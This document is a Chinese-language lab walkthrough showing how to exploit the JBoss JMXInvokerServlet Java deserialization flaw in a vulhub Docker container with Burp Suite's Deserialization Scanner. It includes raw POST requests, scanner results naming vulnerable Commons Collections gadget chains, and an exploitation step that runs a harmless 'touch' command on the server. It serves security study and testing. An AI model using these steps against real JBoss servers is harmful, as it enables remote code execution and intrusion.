

# Jboss_JMXInvokerServlet_Deserialization_RCE



## 使用Burp Suite利用Java反序列化漏洞


### 0x01 搭建Jboss JMXInvokerServlet 反序列化漏洞

#### 测试环境： JBoss JMXInvokerServlet 反序列化漏洞
#### 漏洞原理：JBoss在/invoker/JMXInvokerServlet请求中读取了用户传入的对象，然后我们利用Apache Commons Collections中的Gadget执行任意代码。

```
root@kali:~/vulhub/jboss/JMXInvokerServlet-deserialization# docker-compose up -d
jmxinvokerservlet-deserialization_jboss_1 is up-to-date

root@kali:~# docker ps -a
CONTAINER ID        IMAGE                      COMMAND                  CREATED             STATUS              PORTS                                      
65b3707b9419        vulhub/jboss:as-6.1.0      "/run.sh"                4 hours ago         Up 4 hours          0.0.0.0:8080->8080/tcp, 0.0.0.0:9990->999
```

## 0x02 访问/invoker/JMXInvokerServlet, 将post数据包发送到Deserialization Scanner -Manual testing

BurpSuite 历史记录，如果/invoker/JMXInvokerServlet路径存在，页面返回200状态码
```
POST /invoker/JMXInvokerServlet HTTP/1.1
Host: 10.10.20.166:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Cookie: JSESSIONID=8B6B65418F89E8857F4302AB85085A36
X-Forwarded-For: 127.0.0.1
Connection: close
Upgrade-Insecure-Requests: 1

aaaa
```
response返回 Java serialization data, version 5
文件头以aced0005737200246f72672e6a626f73开头

将/invoker/JMXInvokerServlet ,POST流量发送到DS插件里面
右击,点击 Send request to DS-Manual testing

### 设置序列化点
选择存在序列化的位置，由于JBoss在/invoker/JMXInvokerServlet请求中读取了用户传入的序列化对象.
设置aaaa为序列化点，全选aaaa
然后点击 Set Insertion Point
此时POST数据变成了 $aaaa$

```
POST /invoker/JMXInvokerServlet HTTP/1.1
Host: 10.10.20.166:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Cookie: JSESSIONID=8B6B65418F89E8857F4302AB85085A36
X-Forwarded-For: 127.0.0.1
Connection: close
Upgrade-Insecure-Requests: 1

§aaaa§
```

### 扫描$aaaa$是否存在序列化漏洞
点击 Attack

提示
```
SCANNING IN PROGRESS  //正在进行扫描
Scanning can go on approximately from 1 second up to 3 minutes, based on the number of vulnerable libraries founded
//根据创建的易受攻击的库的数量，扫描可以持续大约1秒到3分钟
```

稍等

```
Results:

Apache Commons Collections 3 (Sleep): Potentially VULNERABLE!!!
Spring Alternate Payload (Sleep): NOT vulnerable.
Apache Commons Collections 4 (Sleep): NOT vulnerable.
JSON (Sleep): NOT vulnerable.
Apache Commons Collections 3 Alternate payload 2 (Sleep): NOT vulnerable.
ROME (Sleep): NOT vulnerable.
Apache Commons Collections 4 Alternate payload (Sleep): NOT vulnerable.
Java 8 (up to Jdk8u20) (Sleep): NOT vulnerable.
Java 6 and Java 7 (up to Jdk7u21) (Sleep): Potentially VULNERABLE!!!
Hibernate 5 (Sleep): NOT vulnerable.
Commons BeanUtils (Sleep): NOT vulnerable.
Apache Commons Collections 3 Alternate payload 3 (Sleep): Potentially VULNERABLE!!!
Spring (Sleep): NOT vulnerable.
Apache Commons Collections 3 Alternate payload (Sleep): Potentially VULNERABLE!!!
END

IMPORTANT NOTE: High delayed networks may produce false positives!
```
可能存在危害的利用方法
```
Apache Commons Collections 3 (Sleep): Potentially VULNERABLE!!!   //可能有害！
Java 6 and Java 7 (up to Jdk7u21) (Sleep): Potentially VULNERABLE!!! //可能有害！
Apache Commons Collections 3 Alternate payload 3 (Sleep): Potentially VULNERABLE!!! //可能有害！
Apache Commons Collections 3 Alternate payload (Sleep): Potentially VULNERABLE!!!  //可能有害！
```

右击发送到 Send to Exploitation tab


默认
`CommonsCollections1 COMMAND`
改为
`CommonsCollections1 "touch /tmp/jas502n"`

点击 Attack

进入docker服务器，查看/tmp/jas502n文件是否创建成功

```
root@kali:~/vulhub/jboss/JMXInvokerServlet-deserialization# docker ps -a
CONTAINER ID        IMAGE                      COMMAND                  CREATED             STATUS              PORTS                                            NAMES
65b3707b9419        vulhub/jboss:as-6.1.0      "/run.sh"                5 hours ago         Up 5 hours          0.0.0.0:8080->8080/tcp, 0.0.0.0:9990->9990/tcp   jmxinvokerservlet-deserialization_jboss_1

root@kali:~/vulhub/jboss/JMXInvokerServlet-deserialization# docker exec -it 65b3707b9419 /bin/bash
[root@65b3707b9419 /]# cd /tmp
[root@65b3707b9419 tmp]# ls
hsperfdata_root  jas502n
[root@65b3707b9419 tmp]# rm jas502n 
rm: remove regular empty file 'jas502n'? y
[root@65b3707b9419 tmp]# 
[root@65b3707b9419 tmp]# ls
hsperfdata_root
[root@65b3707b9419 tmp]# ls
hsperfdata_root  jas502n
[root@65b3707b9419 tmp]# 
```

## 参考链接：
https://github.com/vulhub/vulhub/blob/master/jboss/JMXInvokerServlet-deserialization/README.md

https://youtu.be/F3bPD_uGXKc
